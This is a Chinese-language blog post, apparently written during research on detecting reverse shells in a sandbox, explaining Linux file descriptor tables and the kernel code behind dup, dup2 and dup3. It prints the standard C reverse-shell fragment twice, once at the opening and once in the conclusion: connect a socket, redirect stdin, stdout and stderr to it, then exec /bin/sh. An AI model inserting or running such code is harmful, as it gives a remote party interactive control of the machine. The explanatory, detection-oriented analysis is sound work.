

### 前言
前段时间一直在研究怎么在沙箱环境中检测反弹Shell行为，在这个过程中遇到一些疑问

### 反弹Shell常见特征
```c
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
```
这里最神奇的是执行完后，`connect`的远程服务器可以和本机`bash`交互，有一个输入输出终端。


### 内核实现

#### 文件描述符
要想理解I/O重定向，需要理解文件描述符概念，参考上一篇文章[Linux文件系统基础](Linux文件系统基础.md)


简单总结下，Linux每个进程维护了一个open文件的文件描述符表`current->files->fdt->fd`
```c
struct task_struct{
    ...
	/* Open file information: */
	struct files_struct		*files;
    ...
}


struct files_struct {
  /*
   * read mostly part
   */
	atomic_t count;
	bool resize_in_progress;
	wait_queue_head_t resize_wait;

	struct fdtable __rcu *fdt;
	struct fdtable fdtab;
  /*
   * written part on a separate cache line in SMP
   */
	spinlock_t file_lock ____cacheline_aligned_in_smp;
	unsigned int next_fd;
	unsigned long close_on_exec_init[1];
	unsigned long open_fds_init[1];
	unsigned long full_fds_bits_init[1];
	struct file __rcu * fd_array[NR_OPEN_DEFAULT];
};

```
`current->files->fdt->fd`实质指向`current->files->fd_array`
这个数组保留了进程open的每一个文件的实例`struct file`，所有的文件操作都由该结构完成。

#### dup
重定向主要由几个`dup`系列系统掉调用完成
```c
asmlinkage long sys_dup(unsigned int fildes);
asmlinkage long sys_dup2(unsigned int oldfd, unsigned int newfd);
asmlinkage long sys_dup3(unsigned int oldfd, unsigned int newfd, int flags);
```
man上对它们的解释：
* dup: 创建一份oldfd的拷贝，返回一个新的newfd（最小没有使用的文件描述符），指向同一个文件
* dup2: 作用是和`dup`相同的，不过newfd是自己指定的；换言之，newfd也指向oldfd同一个文件
* dup3: 作用和`dup2`相同
  *  可以指定`close-on-exec`flag（O_CLOEXEC）
  *  如果oldfd和newfd相同，dup3调用失败

sys_dup的内核实现
```c
SYSCALL_DEFINE1(dup, unsigned int, fildes)
{
	int ret = -EBADF;
	struct file *file = fget_raw(fildes);

	if (file) {
		ret = get_unused_fd_flags(0);
		if (ret >= 0)
			fd_install(ret, file);
		else
			fput(file);
	}
	return ret;
}
```
`sys_dup`主要是根据文件描述符fd通过`fget_raw`获得对应的`struct file`结构；然后获得一个当前未使用的最小fd，再通过`fd_install`将新fd和原`struct file`结构关联：
```c
	struct files_struct *files = current->files;
	struct fdtable *fdt;
    ...
	fdt = rcu_dereference_sched(files->fdt);
	...
	rcu_assign_pointer(fdt->fd[fd], file);
```
实际就是在当前进程的fdtable新加一项: newfd->file结构，即新分配的fd也同样指向原file.

sys_dup2的内核实现
```c
SYSCALL_DEFINE2(dup2, unsigned int, oldfd, unsigned int, newfd)
{
	if (unlikely(newfd == oldfd)) { /* corner case */
		struct files_struct *files = current->files;
		int retval = oldfd;

		rcu_read_lock();
		if (!files_lookup_fd_rcu(files, oldfd))
			retval = -EBADF;
		rcu_read_unlock();
		return retval;
	}
	return ksys_dup3(oldfd, newfd, 0);
}
```
处理一种与`dup3`不同的特殊情况即`oldfd`和`newfd`，只是校验下oldfd是否有效，直接返回。
最终由`ksys_dup3`处理, flags默认0
```c
static int ksys_dup3(unsigned int oldfd, unsigned int newfd, int flags)
{
	int err = -EBADF;
	struct file *file;
	struct files_struct *files = current->files;

	if ((flags & ~O_CLOEXEC) != 0)
		return -EINVAL;

	if (unlikely(oldfd == newfd))
		return -EINVAL;

	if (newfd >= rlimit(RLIMIT_NOFILE))
		return -EBADF;

	spin_lock(&files->file_lock);
	err = expand_files(files, newfd);
	file = files_lookup_fd_locked(files, oldfd);
	if (unlikely(!file))
		goto Ebadf;
	if (unlikely(err < 0)) {
		if (err == -EMFILE)
			goto Ebadf;
		goto out_unlock;
	}
	return do_dup2(files, file, newfd, flags);

Ebadf:
	err = -EBADF;
out_unlock:
	spin_unlock(&files->file_lock);
	return err;
}
```
先做了一些校验：
* flags可以唯一指定O_CLOEXEC（针对dup3）
* newfd和oldfd不能相同（针对dup3来的）
* newfd的上限值

如果`newfd`大于当前进程`fdt->max_fd`将扩展`fdt`（重新按需分配一个fdt）
通过`files_lookup_fd_locked`获得oldfd的`struct file`结构
最后由`do_dup2`处理
```c
static int do_dup2(struct files_struct *files,
	struct file *file, unsigned fd, unsigned flags)
__releases(&files->file_lock)
{
	struct file *tofree;
	struct fdtable *fdt;
    ...
	fdt = files_fdtable(files);
	tofree = fdt->fd[fd];
	if (!tofree && fd_is_open(fd, fdt))
		goto Ebusy;
	get_file(file);
	rcu_assign_pointer(fdt->fd[fd], file);
	__set_open_fd(fd, fdt);
	if (flags & O_CLOEXEC)
		__set_close_on_exec(fd, fdt);
	else
		__clear_close_on_exec(fd, fdt);
	spin_unlock(&files->file_lock);

	if (tofree)
		filp_close(tofree, files);

	return fd;

Ebusy:
	spin_unlock(&files->file_lock);
	return -EBUSY;
}
```
主要工作和`sys_dup`是相同的，就是修改`fdt->fd[newfd]`指向oldfd的`struct file`结构；
但是由于`newfd`是指定的已经存在的`fd`，所以有一定的概率此时`newfd`文件还是在`open`状态，如果直接修改，导致仍然对原`newfd`文件的操作发生非预期的情况，所以多了一步`fd_is_open`的校验。

sys_dup3实际上和sys_dup2差别不大，最终也是由ksys_dup3->do_dup2完成。


### 结束语
现在再回过头看开篇的那一个常见的反弹shell代码
```c
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
```
实际上就是将该进程的stdin/stdout/stderr文件描述符都指向了socket文件描述符，
所以对于该进程，从`stdin`读，实际变成了读`socket`内容；
向`stdout/stderr`写（输出），实际上是向`socket`写；
这就是为什么能够产生一个交互式的`bash`的原因了。

### 参考
[man-dup2](https://man7.org/linux/man-pages/man2/dup.2.html)
